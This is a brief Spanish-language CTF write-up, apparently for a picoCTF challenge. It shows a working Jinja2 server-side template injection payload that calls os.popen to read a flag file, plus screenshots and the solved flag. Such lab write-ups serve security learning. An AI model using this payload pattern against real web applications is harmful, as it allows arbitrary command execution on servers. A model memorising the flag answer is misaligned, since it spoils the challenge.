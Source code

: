 ## Descripcion
Primero vamos a copiar el siguiente texto, el cual vamos a pegar en el apartado de la pagina que nos brindo el reto {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
![imagen](https://github.com/user-attachments/assets/28815247-c2bc-413d-94b2-98709565b939)
lo cual nos dara la bandera 
![imagen](https://github.com/user-attachments/assets/86a75ed2-d828-4c15-97ba-5e3625f831ab)

Solución: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}